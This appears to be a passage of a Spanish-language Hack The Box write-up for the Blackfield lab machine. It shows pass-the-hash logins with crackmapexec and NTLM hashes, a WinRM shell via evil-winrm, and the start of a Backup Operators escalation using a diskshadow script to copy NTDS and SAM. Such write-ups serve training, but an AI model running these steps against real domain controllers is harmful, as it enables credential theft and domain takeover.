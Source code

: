 Si probamos a hacer PassTheHash con estos usuarios y hashes podemos ver lo siguiente:

```bash
❯ crackmapexec smb 10.10.10.192 -u 'Administrator' -H '7f1e4ff8c6a8e6b6fcae2d9c0572cd62'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE 
❯ crackmapexec smb 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup 9658d1d1dcd9250115e2205d9f48400d
```

Bien! Podemos usar el hash de svc_backup para autenticarnos. Vamos a ver si este usuario tiene permisos para conectarse por WinRM.

```bash
❯ crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
WINRM       10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

Podemos! Nos autenticaremos con evil-winrm para ganar una shell.

```powershell
❯ evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents\>
```

### Backup Operators Privesc

Es hora de escalar privilegios. Si miramos nuestros privs y nuestros grupos podemos darnos cuenta de que pertenecemos al grupo "Backup Operators" y tenemos permisos de "SeBackupPrivilege"

Podemos aprovecharnos de esto para hacer un backup de SAM, NTDS y de SYSTEM para posteriormente extraer un listado de hash NTLM para hacer PassTheHash y ganar acceso como administrador.

Para aprovecharnos de  esto tendremos que crearnos un archivo .txt con el siguiente contenido (Importante al final de cada linea dar un espacio).

```bash
❯ catn diskshadow.txt
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create  
expose %someAlias% z: 
```

